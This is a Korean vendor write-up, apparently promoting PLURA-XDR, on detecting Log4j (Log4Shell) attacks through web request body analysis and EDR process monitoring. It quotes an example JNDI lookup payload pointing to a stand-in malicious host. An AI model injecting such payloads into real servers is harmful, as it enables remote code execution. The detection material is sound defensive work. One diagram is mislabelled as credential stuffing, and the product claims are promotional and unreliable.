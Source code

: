 ## `사례 1` Log4j(Log4Shell) 취약점 공격 탐지

### **1️⃣ 기존 위협 헌팅(SIEM + EDR + NDR + TI)이 탐지하지 못하는 이유**
| **비교 항목** | **기존 위협 헌팅 (SIEM + EDR + NDR + TI)** | **PLURA 웹 요청 본문 분석 + EDR** |
|----------|-------------------------------|-------------------------------|
| **탐지 방식** | IOC(위협 인텔리전스) 기반 탐지 → 기존 패턴 매칭에 의존하여 새로운 공격 탐지 어려움 | 행위 기반 탐지 → 웹 요청 본문과 실행 행위까지 실시간 분석하여 신규 공격 탐지 가능 |
| **웹 애플리케이션 공격 탐지** | 웹 요청 헤더, URL 분석만 가능 → 요청 본문 내부의 악성 패턴 분석 불가능 | **웹 요청 본문을 실시간 분석하여 JNDI 호출 패턴 탐지 가능** |
| **네트워크 트래픽 분석** | NDR이 SSL 복호화 후 패킷 분석 가능하지만 요청 본문 분석 불가 | **요청 본문을 분석하여 JNDI 패턴 포함 여부를 확인하고 탐지 가능** |
| **엔드포인트 보안** | EDR이 실행된 프로세스를 감지 가능하지만, 웹 애플리케이션에서 발생한 공격과의 연계 분석 어려움 | **EDR이 원격 코드 실행(RCE) 발생 시, 악성 프로세스 실행(Fork, Execve) 탐지 가능** |

### **2️⃣ 기존 위협 헌팅이 탐지하지 못하는 이유 상세 설명**
1. **SIEM + TI(Threat Intelligence) 한계**  
   - 기존 SIEM 및 TI는 **정적 IOC(Indicator of Compromise) 기반 탐지**에 의존합니다.  
   - 즉, **이미 알려진 악성 IP, 도메인, 파일 해시 값 등을 기반으로 탐지**하기 때문에, Log4j처럼 **새롭게 등장한 취약점을 이용한 공격을 탐지하기 어려움**.  
   - 공격자들이 **새로운 JNDI 호출 변형(payload 변형)을 이용하면 IOC 매칭을 우회**할 수 있음.  

2. **NDR(네트워크 기반 탐지)의 한계**  
   - NDR은 **SSL 복호화를 통해 네트워크 트래픽을 분석할 수 있지만, 요청 본문(payload)까지 정밀하게 분석하지 못함**.  
   - 즉, `jndi:ldap://malicious.com/exploit` 같은 **악성 페이로드가 포함된 웹 요청의 본문을 분석할 수 없음**.  
   - 네트워크 단에서 악성 트래픽이 발생할 수 있지만, **로그의 맥락(context)을 고려한 분석이 어려움**.  

3. **EDR(엔드포인트 보안)의 한계**  
   - EDR은 웹 서버 내에서 발생하는 악성 프로세스 실행(`curl`, `wget`, `bash` 등)을 감지할 수 있음.  
   - 하지만, **웹 애플리케이션에서 공격이 시작된 원인을 직접 분석하지 못하기 때문에, 웹 요청과 실행 프로세스 간의 연관성을 파악하기 어려움**.  
   - 즉, **웹 요청 → 악성 코드 실행**까지의 공격 흐름을 제대로 분석하지 못하면, 단순한 이상 프로세스로 오탐할 가능성이 있음.  

---

### **3️⃣ PLURA 웹 요청 본문 분석 + EDR을 통한 탐지 방법**
✅ **1) 웹 요청 본문 분석을 통해 악성 패턴 탐지**  
   - PLURA는 **웹 요청 본문을 실시간 분석**하여 `jndi:ldap://malicious.com/exploit`와 같은 패턴을 탐지 가능.  
   - 검색창, 유저 입력값, HTTP 헤더, API 요청 본문에서 **비정상적인 LDAP, RMI 호출 탐지 가능**.  
   - 기존 WAF가 탐지하지 못하는 **다양한 JNDI 호출 변형을 분석하여 우회 공격도 탐지 가능**.  

✅ **2) 실행 행위 기반 탐지 및 차단 (EDR 연계)**  
   - 공격이 성공하여 원격 코드 실행(RCE)이 발생할 경우,  
   - PLURA EDR이 **커널 레벨에서 새로운 프로세스 생성 이벤트(Fork, Execve) 탐지**.  
   - 예를 들어, 공격 성공 후 `curl`, `wget`, `bash` 등의 프로세스가 실행되면 이를 감지하여 즉시 차단 가능.  

✅ **3) 공격 흐름을 상관 분석하여 추가 공격 차단**  
   - 기존 IOC 기반 탐지가 어려운 공격이라도, **LDAP/RMI 요청 이후 특정 프로세스가 실행되는 패턴을 탐지하여 추가 공격을 사전 차단 가능**.  
   - 즉, 공격자가 **JNDI 호출 변형을 사용하여 시그니처 기반 탐지를 우회**하려 해도 **행위 분석을 통해 탐지 가능**.  

---
### **4️⃣ 크리덴셜 스터핑 공격 흐름**  
```mermaid
graph TD
    A[공격자] -->|JNDI Payload 포함 요청| B[취약한 웹 애플리케이션]
    B -->|로그 저장| C[Log4j 취약점 존재]
    C -->|JNDI Lookup 수행| D[외부 악성 서버 접속]
    D -->|악성 코드 전송| E[웹 서버에서 RCE 발생]
    E -->|백도어 설치| F[공격 성공]

    %% PLURA 탐지 및 대응
    B -->|웹 요청 본문 분석| X[PLURA 탐지 시스템]
    X -->|JNDI 패턴 탐지| Y[공격 차단]
    E -->|프로세스 모니터링| Z[EDR 탐지 및 실행 차단]
```


---

### **📌 결론: PLURA 웹 요청 본문 분석 + EDR이 Log4j 공격 탐지에서 뛰어난 이유**
✅ **기존 위협 헌팅(SIEM + EDR + NDR + TI)은 IOC 기반 탐지에 의존하여 Log4j처럼 새로운 공격 패턴을 탐지하는 데 한계가 있음**.  
✅ **PLURA-XDR은 웹 요청 본문을 분석하고 행위 기반 탐지를 수행하여 Log4j 공격을 실시간으로 탐지 가능**.  
✅ **WAF를 우회하는 공격, 크리덴셜 스터핑, API Abuse, 랜섬웨어 탐지까지 대응 가능**.  
✅ **EDR 연계를 통해 커널 레벨에서 악성 프로세스 실행, 웹쉘 설치, 파일 변조(FIM) 등을 탐지하여 공격자의 추가 행위를 차단**.  

🔹 **PLURA-XDR은 기존 보안 체계가 탐지하지 못하는 Zero-Day 공격까지 대응할 수 있는 차세대 보안 플랫폼입니다.** 🚀  

---

### **📌 개선된 핵심 포인트**
1. 기존 위협 헌팅이 **IOC 기반 탐지에 의존하여 새로운 공격 패턴을 탐지하지 못하는 이유**를 구체적으로 설명.  
2. **PLURA가 요청 본문을 분석하여 JNDI 패턴을 탐지하고, 실행된 악성 프로세스를 감지하여 차단하는 방식**을 명확하게 설명.  
3. 기존 보안 시스템이 탐지하지 못하는 이유를 **SIEM, NDR, EDR 별로 구체적으로 정리**하여 차별점을 강조.  
